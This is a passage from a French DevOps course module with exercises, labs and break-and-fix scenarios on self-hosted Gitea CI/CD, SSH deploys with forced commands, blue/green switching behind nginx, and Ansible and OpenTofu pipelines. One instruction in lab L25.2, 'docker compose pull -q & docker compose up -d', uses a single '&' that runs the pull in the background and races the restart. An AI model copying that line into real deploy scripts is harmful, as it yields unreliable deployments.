et trouve combien de vulnérabilités sont `HIGH` mais sans correctif
(`--ignore-unfixed` les retire). Justifie en deux lignes le seuil que tu
retiendrais pour bloquer un pipeline.

<a id="e25-12"></a>**[E25.12](corrige.md#e25-12)** — Sur `lab-web`, installe la clé publique
`~/lab25/keys/deploy.pub` (copie-la depuis `lab-ops`) pour l'utilisateur
`deploy` avec une **commande forcée** `/usr/local/bin/factura-deploy` et
`from="10.10.10.14"`. Depuis `lab-ops`, prouve que
`ssh -i ~/lab25/keys/deploy deploy@10.10.10.11 id` n'exécute **pas** `id`
et que `SSH_ORIGINAL_COMMAND` contient bien `id`.

<a id="e25-13"></a>**[E25.13](corrige.md#e25-13)** — Installe un second runner **natif** sur `lab-ops` (binaire
`act_runner` depuis `https://dl.gitea.com/act_runner/`, service systemd,
utilisateur dédié `runner`) avec le seul label `lab-shell:host`. Écris un job
`runs-on: lab-shell` qui affiche `id`, `hostname` et `pwd`, et compare avec
le même job sur `ubuntu-latest`. Où sont les fichiers du workspace dans
chaque cas ?

<a id="e25-14"></a>**[E25.14](corrige.md#e25-14)** — Pose un tag Git `v0.1.0` sur `main` de `factura` et pousse-le.
Écris la condition de step qui ne pousse le tag d'image `v0.1.0` **que** si
`gitea.ref` commence par `refs/tags/v`, et vérifie dans le registre que
l'image porte alors deux tags pointant sur le **même digest**.

<a id="e25-15"></a>**[E25.15](corrige.md#e25-15)** — Écris `~/lab25/rapports/dora.sh` qui calcule, à partir de
`git log` de `factura` et d'un fichier `~/lab25/rapports/deploiements.log`
(une ligne `date;sha;resultat` par déploiement, fourni par le setup), la
fréquence de déploiement sur 30 jours, le *lead time* médian et le taux
d'échec. Le MTTR se déduit des lignes `resultat=ko` suivies d'un `ok`.

---

## 25.6 Labs ★★

### <a id="l25-1"></a>**[L25.1](corrige.md#l25-1)** — La forge : Gitea, runner, premier pipeline vert

> **Contexte**
>
> La PME a hébergé son code chez un prestataire qui ferme. On te confie
> l'auto-hébergement : une forge Gitea sur `lab-ops`, un runner, un registre.
> Le setup a posé les conteneurs ; à toi de comprendre la configuration,
> d'ajouter un second label au runner, de protéger `main` et de livrer un
> premier pipeline qui lint et teste `factura` sur chaque push.

1. Lis `~/lab25/forge/compose.yaml` et `~/lab25/forge/runner/config.yaml`.
   Dans un fichier `~/lab25/rapports/forge.md`, documente : pourquoi
   `GITEA_INSTANCE_URL` du runner vaut `http://10.10.10.14:3000` et non
   `http://gitea:3000` ; pourquoi `ROOT_URL` est en IP et non en `lab.local` ;
   la conséquence de `container.docker_host: ""`.
2. Modifie `runner/config.yaml` pour passer `runner.capacity` à `2` et
   `cache.enabled` à `true`, redémarre le runner, et vérifie dans
   *Administration → Actions → Runners* que le runner est `Idle` avec ses
   labels.
3. Protège la branche `main` de `factura` : push direct interdit sauf pour
   `mathieu`, au moins une revue pour merger, et **status check** `ci / lint` `(*)`
   requis — Gitea nomme ses statuts `<workflow> / <job> (<événement>)` et accepte les motifs glob (tu pourras le cocher une fois le pipeline passé une fois).
4. Écris d'abord un `.yamllint` à la racine qui autorise `on` pour la
   règle `truthy`, désactive `document-start` et fixe `line-length` à 100.
   Puis `.gitea/workflows/ci.yaml` avec deux jobs parallèles :
   * `lint` : `yamllint -s .`, `shellcheck -x` sur `scripts/*.sh` et
     `deploy/*.sh`, `hadolint` sur le `Dockerfile` (via
     `docker run --rm -i hadolint/hadolint:2.12.0 < Dockerfile`) ;
   * `test` : dans `container: python:3.12-slim`, cache pip, `pytest -q
     --junitxml=rapport-tests.xml`, artefact `rapport-tests` publié **même en
     cas d'échec**.
   Déclencheurs : `push` sur toutes les branches, `pull_request`,
   `workflow_dispatch`. `timeout-minutes: 10` sur chaque job.
5. Le premier run doit **échouer** : le setup a laissé une erreur de lint dans
   `scripts/smoke.sh` et un test rouge dans `test_app.py`. Corrige les deux
   causes (pas les vérifications), sur une branche `fix/ci`, ouvre une PR,
   observe le pipeline sur la PR, merge.

> [!TIP]
> **Critère de succès**
>
> Critère de succès : un run `ci` vert sur `main` avec les jobs `lint` et
> `test`, un artefact `rapport-tests` téléchargeable, `main` protégée, runner
> `Idle` avec `capacity: 2`.
>
> ```bash
> bash check_M25_01.sh
> ```

---

### <a id="l25-2"></a>**[L25.2](corrige.md#l25-2)** — Pipeline complet : de la PR au rollback automatique

> **Contexte**
>
> Ticket : « Le déploiement de factura se fait par `scp` depuis le poste de
> Julien. Julien est en congé trois semaines. » On veut un déploiement
> reproductible depuis le pipeline : image taguée par SHA, scannée, poussée
> sur le registre de `lab-ops`, déployée sur `lab-web` par SSH avec une clé
> qui ne peut rien faire d'autre, smoke test, et retour arrière automatique.

Sur `lab-web` :

1. Installe la clé `deploy.pub` pour `deploy` avec commande forcée
   `/usr/local/bin/factura-deploy` et restriction `from=`. Écris ce script :
   il lit `SSH_ORIGINAL_COMMAND`, accepte `deploy <tag>`, `rollback` et
   `status`, refuse tout le reste (code 2), valide le tag par une regex
   (12 hexadécimaux ou `vX.Y.Z`), sauvegarde `.env` en `.env.prev` avant
   d'écrire le nouveau `TAG=`, puis `docker compose pull -q & docker compose up -d` dans `/srv/factura`. `rollback` restaure `.env.prev`.
2. Dépose `/srv/factura/compose.yaml` (modèle dans
   `~/lab25/factura/deploy/compose.yaml`) : image
   `10.10.10.14:5000/factura:${TAG}`, port `8080:8000`, `restart:
   unless-stopped`. Initialise `.env` avec `TAG=` vide et vérifie que
   `docker compose config` échoue proprement tant que `TAG` est vide.
3. Vérifie que `/etc/docker/daemon.json` déclare `10.10.10.14:5000` en
   `insecure-registries` (le setup l'a fait) et qu'un `docker pull` manuel
   d'une image poussée en E25.10 fonctionne pour `deploy`.

Sur `lab-ops`, dans `factura` :

4. Secrets et variables du dépôt (API ou interface) : secrets
   `DEPLOY_SSH_KEY` (clé privée) et `REGISTRY_PASSWORD` ; variables
   `REGISTRY_USER` et `LAB_WEB_HOSTKEY` (ligne `known_hosts` obtenue par
   `ssh-keyscan -t ed25519 10.10.10.11`).
5. Étends `ci.yaml` avec les jobs :
   * `build` (`needs: [lint, test]`) : sortie `tag` = 12 premiers caractères
     de `GITHUB_SHA` ; `docker build --build-arg APP_VERSION=<tag>` ; scan
     `trivy` bloquant sur `CRITICAL` non corrigées, avec un volume nommé
     `trivy-cache` pour la base ; `docker login` par `--password-stdin`
     puis `docker push`, **sauf** sur `pull_request` ;
     si `gitea.ref` est un tag `v*`, second tag d'image `vX.Y.Z` ;
   * `deploy` (`needs: build`, uniquement sur `refs/heads/main`,
     `concurrency` groupe `deploy-lab-web` sans annulation) : écrit la clé
     depuis `env:`, déploie, **smoke test** qui exige que
     `http://10.10.10.11:8080/version` renvoie le tag (10 essais espacés de
     3 s), et step `rollback` `if: failure()`.
6. Pousse sur `main`, vérifie que la prod répond avec le SHA du commit.
7. Provoque un rollback : commite une version où `app.py` renvoie `/version`
   avec un préfixe `broken-`. Le pipeline doit passer lint et tests, déployer,
   échouer au smoke test, et **restaurer la version précédente**. Vérifie
   sur `lab-web` que `/version` renvoie l'ancien SHA et que `.env` a été
   restauré. Puis reviens à une version saine.
8. Consigne dans `~/lab25/rapports/pipeline.md` : la durée de chaque job, ce
   qui est mis en cache, et ce que tu changerais pour tenir sous 3 minutes.
9. Transpose, sans les exécuter, le même pipeline en
   `~/lab25/rapports/equivalents/.gitlab-ci.yml` (stages, `image`, `tags`,
   `rules`, `artifacts`, `cache`, `needs`, `when: manual`) et en
   `~/lab25/rapports/equivalents/github-ci.yaml` (avec
   `docker/login-action@v3`, `docker/build-push-action@v5`,
   `environment`). Ajoute un `Jenkinsfile` déclaratif de 10 lignes qui
   fait lint → test → build. Valide les trois YAML avec `yamllint`.

> [!TIP]
> **Astuce**
>
> Pour lire un secret multi-ligne (clé privée) dans un step, passe-le par
> `env:` et écris-le avec `printf '%s\n' "$KEY"`. Un `echo` non quoté
> recolle les lignes et la clé devient invalide.

> [!TIP]
> **Critère de succès**
>
> Critère de succès : `curl http://10.10.10.11:8080/version` renvoie le SHA
> court du dernier commit sain de `main`, le registre expose ce tag, un run a
> exécuté le step `rollback` avec succès, et `deploy@lab-web` refuse toute
> commande hors `deploy|rollback|status`.
>
> ```bash
> bash check_M25_02.sh
> ```

---

### <a id="l25-3"></a>**[L25.3](corrige.md#l25-3)** — Blue/green derrière nginx, bascule depuis le pipeline

> **Contexte**
>
> Le rollback de L25.2 coupe le service pendant `docker compose up` (5 à
> 15 s). Le métier veut zéro coupure et un retour arrière instantané. On passe
> en blue/green : deux instances, nginx en frontal, la bascule est un symlink
> et un `reload`.

Sur `lab-web` :

1. Crée `/srv/factura-bg/compose.yaml` avec deux services `blue`
   (`127.0.0.1:8081:8000`) et `green` (`127.0.0.1:8082:8000`), images
   `10.10.10.14:5000/factura:${TAG_BLUE}` et `…:${TAG_GREEN}`, variable
   d'environnement `APP_COLOR` à `blue`/`green`. Démarre `blue` avec le SHA
   courant de prod et `green` avec le SHA précédent.
2. nginx : `/etc/nginx/factura/blue.conf` et `green.conf` (hors de
   `conf.d`, réfléchis pourquoi) contiennent chacun un
   `upstream factura_live { server 127.0.0.1:808X; }`. Le fichier
   `/etc/nginx/conf.d/factura-upstream.conf` est un **symlink** vers l'un
   des deux. Un site `factura.conf` écoute sur `80`, `proxy_pass
   http://factura_live`, ajoute l'en-tête `X-Factura-Color` déduit de
   `$upstream_addr` (via un `map`). Retire le site `default`.
3. Écris `/usr/local/bin/factura-bg` (commande forcée d'une **seconde**
   clé, `~/lab25/keys/bg`, toujours pour `deploy`, qui a besoin de
   `sudo systemctl reload nginx` et `sudo ln` — donne-lui exactement ces
   deux droits via `/etc/sudoers.d/factura-bg`). Sous-commandes :
   `status` (couleur live et tags), `stage <tag>` (déploie `<tag>` sur la
   couleur **inactive**, attend `/health`), `switch` (bascule le symlink,
   `nginx -t`, `reload`), `back` (rebascule).
4. Prouve la bascule sans coupure : lance dans un terminal
   `while :; do curl -s -o /dev/null -w '%{http_code} ' http://10.10.10.11/;`
   `sleep 0.2; done`
   et fais `switch` dans un autre. Aucun code autre que `200` ne doit
   apparaître.

Sur `lab-ops` :

5. Dans `ci.yaml`, remplace le job `deploy` : `stage <tag>` → smoke test sur
   le port de la couleur inactive (`8081` ou `8082`, que `status` te donne)
   → `switch` → smoke test sur `http://10.10.10.11/version` → `back` en cas
   d'échec (`if: failure()`).
6. Rejoue le scénario « version cassée » de L25.2 : cette fois, la prod ne
   doit **jamais** avoir servi la version cassée (le smoke test sur la
   couleur inactive bloque avant `switch`).
7. Ajoute dans `~/lab25/rapports/pipeline.md` une section sur ce que
   blue/green ne résout **pas** (migrations de schéma, sessions, coût), et
   comment tu ferais un canari à 10 % avec nginx (`weight`, ou `split_clients`).

> [!TIP]
> **Critère de succès**
>
> Critère de succès : `curl -sI http://10.10.10.11/ | grep X-Factura-Color`
> donne la couleur active, les deux conteneurs tournent avec deux tags
> différents, la boucle de curl ne voit que des 200 pendant un `switch`, et
> le run du pipeline montre `stage → smoke → switch → smoke`.
>
> ```bash
> bash check_M25_03.sh
> ```

---

### <a id="l25-4"></a>**[L25.4](corrige.md#l25-4)** — Pipeline d'infrastructure : Ansible et OpenTofu

> **Contexte**
>
> La configuration nginx de L25.3 a été faite à la main. L'audit demande que
> toute modification d'infra passe par une PR, avec un `--check --diff`
> lisible par le relecteur, et que l'application ne se fasse qu'après merge.
> Pour OpenTofu, `plan` en PR, `apply` uniquement sur décision explicite.

Dans `~/lab25/factura-infra` (dépôt Gitea `factura-infra`) :

1. Le playbook `ansible/site.yml` livré configure nginx blue/green sur
   `lab-web` (templates dans `ansible/templates/`), l'utilisateur `deploy`,
   `/srv/factura-bg` et `daemon.json`. Il utilise `become: true`. Installe
   la clé `~/lab25/keys/ansible.pub` pour `mathieu` sur `lab-web` avec
   `from="10.10.10.14"` (pas de commande forcée : Ansible a besoin d'un
   shell). Lance-le une fois à la main depuis `lab-ops` avec `--check
   --diff` : il ne doit rien vouloir changer si L25.3 a été fait proprement,
   sinon lis le diff et décide.
2. Secrets du dépôt : `ANSIBLE_SSH_KEY`, `ANSIBLE_BECOME_PASS` (mot de passe
   de `mathieu` sur `lab-web`). Variable `LAB_WEB_HOSTKEY` comme en L25.2.
3. Workflow `.gitea/workflows/ansible.yaml` :
   * job `lint` : `ansible-lint` en profil `production` + `yamllint` ;
   * job `check` (sur `pull_request`) : `ansible-playbook --check --diff`,
     le mot de passe `become` passé via un fichier de variables temporaire
     écrit depuis `env:` et supprimé en fin de job (`if: always()`) ;
   * job `apply` (sur `push` vers `main` uniquement, `needs: lint`,
     `concurrency` sans annulation) : `ansible-playbook` réel.
4. Fais une PR qui change le `worker_connections` du template nginx ; lis le
   `--diff` dans le journal du job `check` ; merge ; vérifie sur `lab-web`
   que le changement est appliqué et que nginx a été rechargé (handler).
5. Workflow `.gitea/workflows/tofu.yaml` sur `tofu/` : `fmt -check`,
   `validate`, `plan -out=plan.bin` en PR avec le plan **publié en artefact**
   (`plan.txt` lisible via `tofu show`) ; job `apply` uniquement sur
   `workflow_dispatch` avec un `inputs.confirm` qui doit valoir `apply`, et
   `if: gitea.actor == 'mathieu'`. `plan` et `apply` tournent sur le runner
   natif `lab-shell` (E25.13, `tofu` installé dans `/usr/local/bin`) avec
   l'état dans `/var/lib/act_runner/state/factura.tfstate` — note dans le
   rapport pourquoi un état sur le disque d'un runner est inacceptable
   au-delà du lab et ce qu'on utilise à la place.
6. Protège `main` de `factura-infra` : revue obligatoire, status checks
   `ansible / lint` `(*)` et `tofu / plan` `(*)` requis (motifs glob : le nom réel du statut se termine par `(push)` ou `(pull_request)`).

> [!CAUTION]
> **Attention**
>
> `ansible-playbook --check` sur un playbook qui contient un `command` sans
> `check_mode: false`/`changed_when` s'arrête ou ment. Lis les tâches du
> playbook livré : l'une d'elles est volontairement ambiguë.

> [!TIP]
> **Critère de succès**
>
> Critère de succès : un run `ansible` avec `check` vert sur la PR et `apply`
> vert sur `main` ; un run `tofu` avec artefact `plan` ; le job `apply` de
> `tofu` refuse `confirm: non` ; `main` de `factura-infra` protégée.
>
> ```bash
> bash check_M25_04.sh
> ```

---

## 25.7 Break & Fix ★★★

> [!CAUTION]
> **Attention**
>
> Avant chaque Break & Fix : `qm snapshot 9005 avant-bf25`. Les scripts de
> panne agissent sur `~/lab25/factura` (commit + push sur `main` au nom d'un
> « collègue ») et parfois sur le registre. Snapshot de secours `snap-clean`,
> mais l'utiliser vaut échec : le diagnostic se fait dans l'interface de
> Gitea, dans les journaux du runner et sur `lab-web`.

### <a id="bf25-1"></a>**[BF25.1](corrige.md#bf25-1)** — « Le pipeline a disparu »

```bash
sudo bash break_M25_01.sh
```

**Symptôme utilisateur** : depuis le commit « refacto ci » de ce matin,
plus **aucun** run n'apparaît dans l'onglet *Actions* de `factura`, ni sur
push, ni en déclenchement manuel (le bouton *Run workflow* ne propose plus
`ci`). Le runner est `Idle`. Le dernier run visible est celui d'hier.

**Interdit** : `git revert` du commit fautif (on veut comprendre et
corriger le fichier), recréer le dépôt, redémarrer Gitea.

**Objectif** : trouver **où** Gitea signale un workflow invalide (il le
fait, mais pas dans l'onglet où on regarde), identifier la ou les lignes
fautives, corriger, et proposer la vérification locale qui aurait bloqué le
commit (hook `pre-commit` ou job dédié).

### <a id="bf25-2"></a>**[BF25.2](corrige.md#bf25-2)** — « Ça tourne depuis 40 minutes »

```bash
sudo bash break_M25_02.sh
```

**Symptôme utilisateur** : le run du commit « runner dédié build » affiche
`lint` et `test` verts, mais `build` est en `waiting` depuis 40 minutes.
Le runner apparaît `Idle` dans l'administration. Relancer le job ne change
rien.

**Interdit** : modifier les labels du runner sans justification écrite,
supprimer le job.

**Objectif** : expliquer précisément ce que compare Gitea pour assigner un
job à un runner, trouver la cause dans le diff du commit, et choisir entre
deux correctifs valables (côté workflow ou côté runner) en argumentant.
Bonus : montrer, dans les logs du runner, qu'il **ne voit même pas** le job.

### <a id="bf25-3"></a>**[BF25.3](corrige.md#bf25-3)** — « Le mot de passe du registre est dans les logs »

```bash
sudo bash break_M25_03.sh
```

**Symptôme utilisateur** : un auditeur a ouvert le journal du dernier run
`ci` (commit « debug push registre ») et affirme y avoir trouvé de quoi se
connecter au registre — alors que la valeur du secret `REGISTRY_PASSWORD`
apparaît bien sous forme de `***` à plusieurs endroits.

**Interdit** : supprimer les journaux du run avant d'avoir fini l'analyse,
désactiver le secret sans le remplacer.

**Objectif** : retrouver la ou les lignes qui divulguent le secret (il y a
**deux** vecteurs différents dans le même step), expliquer pourquoi le
masquage n'a pas fonctionné sur celles-là, corriger le step, **faire
tourner** le secret (nouvelle valeur côté registre et côté Gitea) et écrire
les deux règles à ajouter à la revue de code.

### <a id="bf25-4"></a>**[BF25.4](corrige.md#bf25-4)** — « Le pipeline est vert, la prod est vieille »

```bash
sudo bash break_M25_04.sh          # sur lab-ops
sudo bash break_M25_04.sh --web    # puis sur lab-web
```

**Symptôme utilisateur** : depuis le commit « simplification déploiement »,
chaque run `ci` est vert, le step `deploy` affiche `Pulled` et `Started`,
le smoke test passe. Pourtant `http://10.10.10.11:8080/version` renvoie
un SHA qui n'est pas celui du dernier commit de `main`, et
`/factures/0` renvoie de nouveau `200` au lieu de `404` — un bug corrigé
depuis L25.1. Le collègue dit avoir « aussi ajusté un truc sur lab-web ».

Le pipeline est dans l'état de L25.2 (déploiement direct sur `:8080`).

**Interdit** : `docker compose pull` manuel sur `lab-web` « pour voir si ça
passe », rebuild de l'image.

**Objectif** : à partir des digests (`docker image inspect` sur `lab-web`,
API du registre sur `lab-ops`), prouver quelle image tourne, d'où elle
vient et depuis quand ; identifier les **trois** changements du commit qui,
combinés, rendent la panne invisible ; rétablir le déploiement par SHA et le
smoke test qui aurait détecté le problème ; expliquer pourquoi le tag
`latest` n'a plus sa place dans un déploiement.

---

## 25.8 Défi du module ★★★

<a id="d25"></a>**[D25](corrige.md#d25) — Chaîne de release : de `v1.0.0` à la promotion en production**

> **Contexte**
>
> Le pipeline de `factura` déploie tout ce qui arrive sur `main`. Le métier
> veut des **versions** : un tag Git SemVer déclenche une release, un
> changelog est généré, l'image est promue en « prod » sans rebuild, et une
> release Gitea garde la trace de ce qui a été livré. Le déploiement continu
> sur `main` reste pour la recette (la couleur inactive de L25.3) ; seule la
> promotion touche la couleur active.

Cahier des charges :

1. Workflow `.gitea/workflows/release.yaml`, déclenché **uniquement** sur
   `push` de tags `v*`. Il refuse (job `guard`, `exit 1`) tout tag qui ne
   respecte pas `vMAJEUR.MINEUR.CORRECTIF`, et tout tag qui ne pointe pas sur
   un commit de `main` (`git branch -r --contains`).
2. **Pas de rebuild** : le job `promote` retrouve l'image `factura:<sha12>`
   du commit tagué dans le registre (elle doit exister, sinon échec avec un
   message clair), lui ajoute les tags `vX.Y.Z` et `vX.Y` **sans la tirer**
   si tu sais le faire (manifest via l'API du registre), sinon par
   `docker pull` + `docker tag` + `docker push`.
3. Changelog : `CHANGELOG.md` mis à jour par un script
   `scripts/changelog.sh` à partir des messages de commits entre le tag
   précédent et celui-ci, groupés par préfixe (`feat:`, `fix:`, autres).
   Le fichier est publié en artefact **et** commité sur `main` par le
   pipeline (jeton `GITEA_TOKEN`, auteur `ci-bot`), sans redéclencher `ci`
   à l'infini (trouve le mécanisme).
4. Release Gitea créée par l'API (`POST /repos/{owner}/{repo}/releases`)
   avec le changelog en corps et le digest de l'image en note.
5. Job `deploy-prod` : `stage` sur la couleur inactive avec le tag
   `vX.Y.Z`, smoke test, puis **attente d'approbation** implémentée comme
   Gitea le permet : le job s'arrête là ; un second workflow
   `promote.yaml` en `workflow_dispatch` (input `version`, `confirm`)
   exécute `switch` + smoke + `back` sur échec, et n'est lançable que par
   `mathieu`.
6. `scripts/release-check.sh` sur `lab-ops` : pour une version donnée,
   vérifie que le tag Git existe, que l'image porte le tag, que le digest
   du tag `vX.Y.Z` égale celui du SHA, que la release existe, et sort en
   `0`/`1` avec un rapport lisible.
7. Livrable : `~/lab25/rapports/release.md` — le schéma de la chaîne, le
   temps entre `git push --tags` et prod, la liste des secrets utilisés avec
   leur périmètre, et les métriques DORA de ta semaine de lab calculées
   avec `dora.sh` (E25.15).

Temps visé : 60 à 90 minutes.

> [!TIP]
> **Critère de succès**
>
> ```bash
> bash check_M25_05.sh v1.0.0
> ```

---

## 25.9 Auto-évaluation

| Compétence | Acquis | À revoir |
|---|---|---|
| Distinguer CI, livraison continue, déploiement continu | ☐ | ☐ |
| Expliquer runner, label, job, step, artefact, cache | ☐ | ☐ |
| Installer Gitea + act_runner et lire `config.yaml` | ☐ | ☐ |
| Écrire un workflow avec `needs`, `if`, `matrix`, `services` | ☐ | ☐ |
| Construire, scanner, pousser une image taguée par SHA | ☐ | ☐ |
| Déployer par SSH avec clé à commande forcée | ☐ | ☐ |
| Écrire un smoke test qui prouve la version et un rollback | ☐ | ☐ |
| Mettre en place un blue/green derrière nginx | ☐ | ☐ |
| Pipeline Ansible check/diff en PR, apply au merge | ☐ | ☐ |
| Pipeline OpenTofu plan/apply avec approbation | ☐ | ☐ |
| Identifier et corriger une fuite de secret en CI | ☐ | ☐ |
| Transposer un pipeline en GitLab CI / GitHub Actions | ☐ | ☐ |
| Calculer les quatre métriques DORA | ☐ | ☐ |

Pour aller plus loin :

* Remplace le registre `registry:2` par le registre intégré de Gitea
  (*Packages*) : authentification par jeton, nettoyage des versions, et un
  seul service à sauvegarder.
* Installe `act` (`nektos/act`) sur `lab-adm` et exécute `ci.yaml` en
  local avant de pousser ; note ce qui diffère (secrets, services, cache).
* Signe tes images avec `cosign` et fais refuser par `factura-deploy` toute
  image non signée : c'est la marche suivante après le scan.
* Lis le rapport *State of DevOps* de l'année : les quatre métriques y sont
  définies avec leurs seuils, et une cinquième (fiabilité) y est discutée.

<!-- nav:début -->
---

[← Module 24](../24-iac-terraform/README.md) · [Corrigé](corrige.md) · [Module 26 →](../26-kubernetes-observabilite/README.md) · [Parcours](../../docs/parcours.md) · [Accueil](../../README.md)
<!-- nav:fin -->
